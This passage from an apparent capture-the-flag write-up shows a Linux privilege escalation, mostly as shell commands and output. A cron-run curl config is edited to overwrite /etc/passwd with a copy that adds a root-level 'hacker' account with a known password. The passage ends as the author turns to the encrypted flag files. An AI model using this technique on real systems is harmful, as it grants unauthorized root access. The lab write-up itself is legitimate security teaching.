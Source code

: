 We prepare a new `/etc/passwd` file, named `etcpasswd`, which includes our new user:

```shell
F30s@482cbf2305ae:~$ cat etcpasswd 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
# ... (other users)
F30s:x:1001:1001::/home/F30s:/bin/bash
hacker:$1$asdf$If00rGpofpPSEO0asfmyq/:0:0:root:/root:/bin/bash
```

Now, we adjust the `site_check` curl config file to fetch and overwrite `/etc/passwd` with our crafted version:

```shell
F30s@482cbf2305ae:~$ cat site_check
url = "http://127.0.0.1/etcpasswd"
output = "/etc/passwd"
stderr = "/tmp/etc-error.log"
```

We host the `etcpasswd` file using a simple HTTP server and wait for the cronjob to pull the file and overwrite `/etc/passwd`:

```shell
F30s@482cbf2305ae:~$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
127.0.0.1 - - [28/Sep/2023 20:40:01] "GET /etcpasswd HTTP/1.1" 200 -
```

The cronjob executes, overwriting `/etc/passwd` with our crafted version. Now, we switch to our new hacker user:

```shell
F30s@482cbf2305ae:~$ su hacker
Password: asdf
```

We’re now root:

```shell
root@482cbf2305ae:/#
```

With this level of access, we have full control of the system, opening the door to a myriad of possibilities for exploration and exploitation.

### Decoding the Flag

After a successful root penetration, we ventured further into the depths of the machine. Inside the `/root` directory, two mysterious files named `flag2.txt` and `secret.txt` caught our eyes. A quick examination revealed encrypted contents. It was now our task to unveil the enigma cloaked within.

```shell
root@482cbf2305ae:/root# ls
flag2.txt  secret.txt
```

We were eager to discern their contents.
